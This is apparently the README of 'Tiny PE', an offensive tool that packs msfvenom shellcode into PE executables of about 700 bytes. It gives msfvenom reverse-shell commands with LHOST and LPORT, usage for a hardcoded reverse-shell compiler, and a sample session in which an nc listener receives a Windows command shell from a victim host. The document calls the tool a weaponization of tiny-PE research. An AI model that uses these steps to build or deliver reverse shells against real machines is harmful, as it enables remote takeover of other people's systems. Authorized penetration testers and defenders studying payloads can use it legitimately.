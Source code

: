 # Tiny PE

Small PE reverse shell generator.
Generates a very small (~700 bytes) reverse shells/shellcodes/payloads packed into .exe PE file.


## General presentation

Typical executable payloads generated by msfvenom are about 70kb, and even packed with tools
such as UPX they remain at around 48kb, at least at the time I started this project.

However in some situation, it is interesting to have a PE executable file as small as possible.

This tools leverages on [some research](ttp://www.phreedom.org/research/tinype/) (done by others and found on internet) about generating
the smallest PE file as possible.
The original project was about downloading and executing a payload through webdav.

I just weaponized this research into a tool that integrates an arbitrary shellcode 
typically generated by msfvenom, into these small PE files.

As an example, it is possible to obtain a reverse shell PE executable file of 681 bytes from
a msfvenom `windows/shell_reverse_tcp`, wich is 2 orders of magnitude below a typical PE generated directly by msfvenom.

### Stability

The executables I obtained seem to work quite well, but I had a few times where it didn't work.
If it doesn't work on the first try, it's worth trying a couple more times.


## Generic shellcode compiler

This tool "packs" a generic shellcode (typically generated by msfvenom) into a .exe PE file.
The produced executable will typically be around 700 bytes long.

### Usage

```
./generic-compiler.sh <MASM_SHELLCODE> <OUTPUT_EXE_FILE>
```

Arguments:
- `MASM_SHELLCODE`  : Shellcode in MASM format
                   Typically generated with msfvenom with a command of the form
                   `msfvenom -p windows/<PAYLOAD> <OPTIONS> -f masm -o shellcode.asm`
- `OUTPUT_EXE_FILE`  : Ouput filename for PE .exe file

### Example

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.11 LPORT=4444 -f masm -o shellcode.asm
./generic-compiler.sh shellcode.asm shellcode.exe
```


## Revshell-compiler 

This tool was the first version of this project.
A hardcoded reverse shell is in the ASM source and the compiler script just replace
the `LHOST` and `LPORT` parameters by those supplied by the user.

It is here for "historical" reasons and does not have a a great interest compared to 
the generic shellcode compiler presented above, unless you have no msfvenom or reverse shell 
source code at hand.

### Usage

```
revshell-compiler.sh <OUTPUTFILE> <LHOST> <LPORT
```
Arguments:
- `OUTPUTFILE` : .exe output file
- `LHOST` : Attacker IP address to receive reverse shell
- `LPORT` : Listening port to receive reverse shell

### Example

```
$ ./revshell-compiler.sh rs.exe 172.16.19.247 5432
Compiling template for 172.16.19.247:5432 to rs.asm.
0x38150002 0xf71310ac
PE reverse shell exported to rs.exe.
Size: 739 bytes.

$ nc -nlvp 5432
listening on [any] 5432 ...
connect to [172.16.19.247] from (UNKNOWN) [172.16.19.244] 62455
Microsoft Windows [Version 10.0.19045.3803]
(c) Microsoft Corporation. All rights reserved.

C:\tinype>
```
